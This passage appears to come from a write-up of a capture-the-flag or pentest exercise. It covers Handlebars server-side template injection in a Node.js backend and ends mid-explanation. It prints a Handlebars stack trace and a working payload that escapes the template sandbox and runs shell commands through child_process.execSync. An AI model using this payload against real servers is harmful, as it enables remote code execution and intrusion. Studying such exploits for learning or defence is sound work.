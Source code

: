   ```bash
  ReferenceError: require is not defined<br> &nbsp; &nbsp;at Function.eval (eval at &lt;anonymous&gt; (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23)), &lt;anonymous&gt;:3:1)<br> &nbsp; &nbsp;at Function.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:10:25)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:5:37)<br> &nbsp; &nbsp;at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)<br> &nbsp; &nbsp;at execIteration (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:51:19)<br> &nbsp; &nbsp;at Array.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/each.js:61:13)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:12:31)<br> &nbsp; &nbsp;at prog (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/runtime.js:221:12)<br> &nbsp; &nbsp;at Array.&lt;anonymous&gt; (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/helpers/with.js:22:14)<br> &nbsp; &nbsp;at eval (eval at createFunctionContext (/root/Backend/node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js:254:23), &lt;anonymous&gt;:12:34)
  ```

- So now I'm very sure that we are injecting code, but it still errors, how to make it run...
- After doing some major cheating I found this:
  ```bash

  {{#with "s" as |string|}}
  {{#with "e"}}
  {{#with split as |conslist|}}
    {{this.pop}}
    {{this.push (lookup string.sub "constructor")}}
    {{this.pop}}
    {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
      {{/each}}
    {{/with}}
  {{/with}}
  {{/with}}
  {{/with}}

  ```

- so basically I was on the correct path I just didn't want to spend hours researching node js code exectutions. Essentially what above code does is returns the Node.js process' "mainModule" which is the "main" for the whole app. Apparently the "main" is not sandboxed normally so you can get away with code exec that isn't avaliable in the current process (which is sandboxed). Once the mainModule is loaded you can call 'child_process' module which is default for most Node.js instances and this allows for running commands with the "execSync" function call. THUS: